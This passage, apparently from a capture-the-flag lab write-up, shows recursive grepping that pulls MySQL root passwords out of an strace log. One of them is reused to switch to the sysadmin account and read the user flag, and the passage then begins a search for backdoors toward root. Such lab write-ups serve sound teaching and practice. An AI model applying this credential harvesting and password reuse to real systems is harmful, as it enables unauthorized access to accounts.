 We have a lot of files. Something that is always worth a shot, is grepping for `password`, so let us try it here.

```bash
mysql@compromised:~$ grep -Iri password
strace-log.dat:22102 03:11:06 write(2, "mysql -u root --password='3*NLJE"..., 39) = 39
strace-log.dat:22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0
strace-log.dat:22227 03:11:09 write(2, "[Warning] Using a password on th"..., 73) = 73
strace-log.dat:22102 03:11:10 write(2, "mysql -u root --password='3*NLJE"..., 39) = 39
strace-log.dat:22228 03:11:15 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=changeme"], 0x55bc62467900 /* 21 vars */) = 0
strace-log.dat:22228 03:11:15 write(2, "[Warning] Using a password on th"..., 73) = 73
strace-log.dat:22102 03:11:16 write(2, "mysql -u root --password='change"..., 35) = 35
strace-log.dat:22229 03:11:18 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=changethis"], 0x55bc62467900 /* 21 vars */) = 0
strace-log.dat:22229 03:11:18 write(2, "[Warning] Using a password on th"..., 73) = 73
strace-log.dat:22232 03:11:52 openat(AT_FDCWD, "/etc/pam.d/common-password", O_RDONLY) = 5
strace-log.dat:22232 03:11:52 read(5, "#\n# /etc/pam.d/common-password -"..., 4096) = 1440
strace-log.dat:22232 03:11:52 write(4, "[sudo] password for sysadmin: ", 30) = 30
```

Interestingly, we find a new password: `--password=3*NLJE32I$Fe`. 

### Su to sysadmin

Let us try this password for the user `sysadmin`.

```bash
mysql@compromised:~$ su sysadmin
Password: 3*NLJE32I$Fe
sysadmin@compromised:/var/lib/mysql$
```

We successfully login as the user sysadmin and can now read user.txt.


```bash
sysadmin@compromised:~$ cat user.txt 
8492e***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as sysadmin

As we can assume that the root user has been compromised as well let us search for backdoor. To find compromises, let us look at files changed recently.

### Finding recently changed files

If we remember back to the backup, a compromise was already evident (webshell was present), so we can assume that the compromise occurred before or within the period of the backup.
